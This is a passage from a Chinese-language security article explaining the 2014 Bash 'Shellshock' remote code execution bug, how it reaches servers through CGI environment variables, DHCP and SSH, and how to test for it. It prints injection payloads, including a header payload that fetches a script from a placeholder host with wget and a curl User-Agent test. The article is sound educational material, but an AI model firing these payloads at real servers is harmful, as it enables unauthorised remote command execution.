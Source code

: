 作为网页设计者，通常创建客户端的 CGI脚本，服务器端的程序用来处理用户输入，结果返回给用户。

后台处理程序不仅仅可以用PHP、Python、Perl等脚本来接受请求、解释执行、响应客户端，当然还可以用Bash脚本来解释执行用户提交的GET或POST请求。

**0.3 Bash漏洞与远程执行**

洞利用一般分为本地利用和远程执行利用。

该漏洞爆出后，一些研究人员最初认为该漏洞只是本地漏洞，所以无法很好地利用。

随着研究的深入，研究发现其实它可以进行远程利用。2014年9月24日Bash被公布存在远程代码执行漏洞。

Bash漏洞其实是非常经典的“注入式攻击”，也就是可以向 bash注入一段命令，从bash1.14 到4.3都存在这样的漏洞。

由于Bash存储远程执行漏洞，所以，理论上，可以在HTTP请求中注入一个Bash命令，进行远程执行，比如：

```
() { :;}; wget http://www.XXX.com/testvul.sh

```

对于利用Bash脚本处理用户请求的网站，攻击者可以精心伪造数据，通过网络传到一台服务器上，直接或间接触发一个bash脚本，这样就可以远程执行恶意代码。

由于Bash是一个被广泛集成的软件，几乎所有的系统都在运行，从Rapsberry Pis到手机，再到数据中心的服务器以及大型机等。

由于自动导入函数的功能至少从Bash 3.0开始就存在了，所以这个bug有可能在大多数系统中存在近20年了。

由于Apache服务器中使用`mod_cgi`（不包括`mod_php`或`mod_python`）运行脚本的时候，数据是通过环境变量来传递的，这可以算是互联网领域最古老的一些技术了。

其他一些客户端也会受到影响——比如Linux的DHCP客户端——它大量运用Bash脚本来使修改生效，这也使黑客能通过在DHCP数据包中加入恶意数据来达到攻击的目的。

鉴于Bash是大多数Linux系统（以及OSX）上默认的shell，这个漏洞就意味着，把有害数据编入环境变量，传到服务器端，触发服务器运行Bash脚本，就完成了攻击（`passing an poisoned environment variable through to a server running a CGI script could trivially be compromised`）。

举个例子，HTTP协议的头User-Agent通常是通过环境变量`HTTP_USER_AGENT`来传递的，这意味使用以下命令就可以测试这个漏洞了：

```
curl -H 'User-Agent:() { :; }; echo -e "\r\nVul\r\n"' http://example.com/some-cgi/script.cgi

```

对于不传递`User-Agent`的服务器来说，常常还有其他受攻击的可能——比如`Cookie`，`Referer`或者请求本身。 另外，这个bug不仅仅影响CGI脚本和Apache——如果其他程序也收到并传递了有害的环境变量（比如ssh服务会接收TERM或DISPLAY环境变量），然后这些进程再运行一个Bash脚本（或通过system()调用来执行），同样的漏洞也会被利用。

和HTTP不同，SSH一般不允许匿名请求——触发这个漏洞之前必须要登录——但是代码托管服务商们却允许匿名登录（哪怕只登录到一个权限受限的shell），所以为了防止入侵，GitHub更新了他们的企业级产品，Bitbucket也更新了他们的服务器。

由于Bash漏洞能够远程执行，所以会产生像struts2等漏洞利用一样的效果，对攻击者而言，通常就是“拿站或拿服务器”，再去执行其他操作。

下面引用一张图，做个简单的形象说明。

![enter image description here](http://drops.javaweb.org/uploads/images/8c7c588b8e1109600151ff3ea9b1875a0b263b07.jpg)

0x01 漏洞原因分析
-----------

* * *

漏洞信息最早来源于国外知名漏洞网站exploit-db下的第34765篇漏洞报告，其中出现了一条验证命令：

```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test "

```
